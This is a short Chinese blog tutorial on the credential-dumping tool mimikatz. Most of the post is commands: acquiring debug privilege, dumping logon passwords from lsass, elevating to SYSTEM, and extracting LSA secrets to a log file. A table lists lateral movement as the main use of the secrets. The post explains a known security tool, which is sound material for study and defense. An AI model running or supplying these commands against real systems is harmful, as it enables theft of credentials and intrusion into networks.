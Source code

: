 ```yaml
---
layout: post
title: mimikatz 使用教程
subtitle: mimikatz
date: 2024-07-30 09:20
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: true
---
```

> [!NOTE]
> 项目地址：[gentilkiwi/mimikatz: A little tool to play with Windows security](https://github.com/gentilkiwi/mimikatz)

## 1. 基本介绍

**mimikatz** 是一款功能强大的轻量级进程调试工具，在安全领域最大的亮点就是他可以直接从 lsass 中获取当前处于 Active 系统的登录密码

## 2. 基本使用

### 2.1. 获取本地密码

**获取调试权限**

```batch
# 以管理员运行
privilege::debug
```

**抓取密码**

```batch
sekurlsa::logonpasswords # 获登陆用户信息及密码
# 抓取密码并导出到文件
mimikatz ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit >> log.txt
```

**获取所有用户 hash**

```batch
privilege::debug
lsadump::lsa /path
# 使用当前用户的权限提升为系统级（NT AUTHORITY\SYSTEM）
# 通过提取并使用系统 Token，模拟最高权限用户
token::elevate
# 提取存储在注册表中的 LSA 机密数据
lsadump::secrets
# 执行并导出
mimikatz ""privilege::debug"" ""token::elevate"" ""lsadump::secrets"" exit >> log.txt
```

| 功能模块   | lsadump::secrets                                   |
| ------ | -------------------------------------------------- |
| **提取内容**   | 本地 LSA 机密信息，如服务账户密码、本地登录密码                         |
| **适用场景**   | 本地系统服务、机器账户的分析和利用                                  |
| **信息存储位置** | 注册表路径：`HKLM\SYSTEM\CurrentControlSet\Services\LSA` |
| **提取内容类型** | 明文密码、敏感配置项                                         |
| **主要用途**   | 横向移动、服务账户攻击                                        |
